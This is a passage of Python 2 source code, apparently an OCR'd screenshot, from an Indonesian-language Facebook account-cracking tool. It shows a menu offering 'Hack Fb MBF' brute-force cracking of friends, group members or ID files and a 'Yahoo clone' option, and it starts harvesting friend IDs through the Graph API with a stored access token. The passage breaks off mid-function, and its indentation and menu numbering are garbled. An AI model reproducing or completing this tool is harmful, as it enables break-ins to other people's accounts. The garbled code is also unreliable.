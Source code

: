  print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Nama \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
 print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
 print 42*"\033[1;96m="
 print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Hack Fb MBF"
 print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Lihat daftar grup               "
 print "\x1b[1;96m[\x1b[1;92m4\x1b[1;96m]\x1b[1;93m Yahoo clone               "
 print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Keluar            "
 pilih()

def pilih():
 unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
 if unikers =="":
 print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
 pilih()
 elif unikers =="1":
 super()
 elif unikers =="2":
 grupsaya()
 elif unikers =="3":
 yahoo()
 elif unikers =="0":
 jalan('Menghapus token')
 os.system('rm -rf login.txt')
 keluar()
 else:
 print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
 pilih()

def super():
 global toket
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mToken invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack dari daftar teman"
 print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack dari teman"
 print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack dari member grup"
 print "\x1b[1;96m[\x1b[1;92m4\x1b[1;96m]\x1b[1;93m Crack dari file"
 print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Kembali"
 pilih_super()

def pilih_super():
 peak = raw_input("\n\033[1;97m >>> \033[1;97m")
 if peak =="":
 print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
 pilih_super()
 elif peak =="1":
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 jalan('\033[1;96m[✺] \033[1;93mMengambil ID \033[1;97m...')
 r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
 z = json.loads(r.text)
 for s in z['data']:
 id.append(s['id'])
 elif peak =="2":